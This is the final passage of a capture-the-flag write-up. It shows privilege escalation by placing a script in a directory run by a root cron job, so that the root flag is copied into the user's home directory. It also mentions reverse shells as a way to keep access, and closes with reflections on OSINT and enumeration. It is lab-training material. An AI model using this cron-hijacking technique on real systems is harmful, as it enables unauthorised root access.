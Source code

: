 A better way of securing permanent PrivEsc would be to create a reverse shell attack, which would spawn a shell on our attacking machine as the root user on the victim.

Seeing as this is CTF and time matters for points, we simply create a script to copy the root flag to a directory we can read from!

```bash
#!/bin/bash
cp /root/flag_root.txt /home/n1ss3f4r/
```

```bash
n1ss3f4r@acaeda685ce2:~$ vim /usr/scheduled/pwn.sh
n1ss3f4r@acaeda685ce2:~$ chmod +x /usr/scheduled/pwn.sh
# -- WAITING FOR 5 agonizing minutes --- #
n1ss3f4r@acaeda685ce2:~$ ls
2023-Q3-regnskab.xlsm  flag_root.txt  flag_user.txt  linpeas.sh  loader.vbs  payloads  todo.txt
```

We use the best text editor known to man and create our new script to copy the flag_root.txt to our home directory!
After this there is nothing to do, but wait 5 minutes for the cronjob to execute and see if we managed to solve the challenge...

And after 5 minutes we see that a new file has been created in out home directory, which allows us to read the second half of the flag!

```bash
n1ss3f4r@acaeda685ce2:~$ cat flag_user.txt flag_root.txt
NC3{N1ss3b4nd3ns_53rv3r
_1nf1ltr3r3t_g00d_j0b!}
n1ss3f4r@acaeda685ce2:~$ echo "$(cat flag_user.txt)$(cat flag_root.txt)"
NC3{N1ss3b4nd3ns_53rv3r_1nf1ltr3r3t_g00d_j0b!}
n1ss3f4r@acaeda685ce2:~$
```

## Flag

```text
NC3{N1ss3b4nd3ns_53rv3r_1nf1ltr3r3t_g00d_j0b!}
```

## Reflections and Learnings

### The Power of OSINT and Attention to Detail

This challenge was a powerful reminder of the critical role of Open Source Intelligence (OSINT) in cybersecurity. The initial clue from N1ss3f4r’s Instagram account was pivotal. It underscores the importance of thorough investigation and considering even seemingly minor details - what might initially appear as an innocuous social media post can, in fact, be a treasure trove of information.

### The Necessity of Understanding and Leveraging System Configurations

Thorough enumeration of the current step in the challenge is essential to move on!
The discovery of the cron job running as root highlighted the importance of understanding system configurations and how they can be manipulated for privilege escalation. The ability to recognize and exploit such configurations is a vital skill in cybersecurity.
